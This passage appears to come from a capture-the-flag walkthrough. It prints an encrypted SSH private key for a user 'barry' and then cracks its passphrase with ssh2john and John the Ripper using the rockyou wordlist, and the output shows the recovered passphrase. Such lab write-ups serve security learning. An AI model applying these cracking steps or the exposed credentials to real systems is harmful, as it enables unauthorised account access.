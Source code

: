 Let's grab the key and login as barry:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

If we try logging using the key we notice it is encrypted, which means we need the passphrase, for this, let's try cracking it using `ssh2john`:

```
ssh2john id_rsa > id_hash.txt
```

Now, let's crack it:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_hash.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2025-03-17 23:42) 0.2688g/s 3855Kp/s 3855Kc/s 3855KC/sa6_123..*7Â¡Vamos!
Session completed
```
